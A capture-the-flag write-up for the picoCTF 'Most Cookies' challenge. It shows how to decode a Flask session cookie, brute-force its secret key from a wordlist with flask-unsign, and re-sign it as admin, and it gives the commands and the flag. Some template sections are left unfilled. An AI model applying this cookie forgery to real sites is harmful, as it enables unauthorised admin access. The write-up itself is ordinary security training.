 # CTF Write-Up: [Most Cookies][Web Exploitation]

## Description
![alt text](images/image.png)

## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{pwn_4ll_th3_cook1E5_478da04c`}

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- `flask-unsign` 

## Write-Up

### Step 1: [Preparatory Stage]
- In the description it stated the challenge related to flask cookies. Therefore upon searching up 'flask cookies CTF' 
on Google I came across an article stating how to use `flask-unsign.` 
Source: https://github.com/Paradoxis/Flask-Unsign
- Static analysis revealed the following information:
1. ![alt text](images/image-1.png)
The secret key can be brute-forced from the list named `cookie_names`

2. ![alt text](images/image-2.png)
In order to obtain the flag we need to modify the cookie such that `session[very auth] = "admin"'
### Step 2: [Attack Phase]
- Go into inspect element then into the application tab in order to obtain the cookies.
![alt text](images/image-3.png)
- Copy and paste the cookie and use `flask-unsign --decode --cookie <cookie>`
![alt text](images/image-5.png)
- Create a `keys.txt` file consisting of the entries from the `cookie_names.` Run `flask-unsign --wordlist keys.txt --unsign --cookie <cookie> --no-literal-eval`.
![alt text](images/image-6.png)
- Use the secret key obtained to sign `{'very_auth': 'admin'}` using `flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret '<insert key found>'`
- Then we can modify the cookie field in the inspect element tab to the encrypted cookie.
![alt text](images/image-7.png)


### Final Solution/Payload
- Summarize how you arrived at the final solution and any critical insights that helped you solve the challenge.

## Lessons Learned
- **What Flask is**

- **What a JWT is**

## References
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask

